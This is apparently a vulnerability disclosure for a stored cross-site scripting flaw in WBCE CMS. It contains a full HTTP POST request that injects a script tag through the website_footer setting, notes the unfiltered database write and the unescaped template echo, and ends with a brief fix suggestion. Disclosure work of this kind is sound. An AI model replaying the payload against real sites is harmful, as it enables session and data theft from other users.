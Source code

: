 

Storage XSS

![image-20231014164109765](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014164109765.png)

request packet

```
POST /admin/settings/save.php HTTP/1.1
Host: localhost
Content-Length: 744
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/admin/settings/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; phpsessid-3877-sid=29rsln8q1kfe418al8e5i6i7p5; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1697291720
Connection: close

advanced=no&formtoken=2efc8cf5-8b6dcd39a0b4833bc56072d9bf66c61b8f3c70e7&website_title=aaa&website_description=bbb&website_keywords=ccc&website_header=&website_footer=%3Cscript%3Ealert(345)%3c%2fscript%3e&page_trash=inline&home_folders=true&intro_page=false&frontend_login=false&frontend_signup=4&submit=&default_language=EN&default_timezone=13&default_date_format=d.m.Y&default_time_format=H%3Ai&default_template=wbcezon&default_theme=wbce_flat_theme&search=public&search_template=&page_spacer=-&app_name=phpsessid-3877&sec_anchor=wbce_&server_email=admin%40qq.coms&wbmailer_default_sendername=WBCE+CMS+Mailer&wbmailer_routine=phpmail&wbmailer_smtp_host=&wbmailer_smtp_port=&wbmailer_smtp_secure=&wbmailer_smtp_username=&wbmailer_smtp_password=
```



![image-20231014233644498](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014233644498.png)

This vulnerability can allow any user with settings privileges to obtain other user information, such as administrators with higher privileges

In /admin/settings/save.php#211

Insert HTML characters directly into the database without filtering

![image-20231014234154490](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234154490.png)

Directly used echo in/templates/wbcezon/index.php

![image-20231014234544441](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234544441.png)



Repair suggestions:

add Strings::htmlentities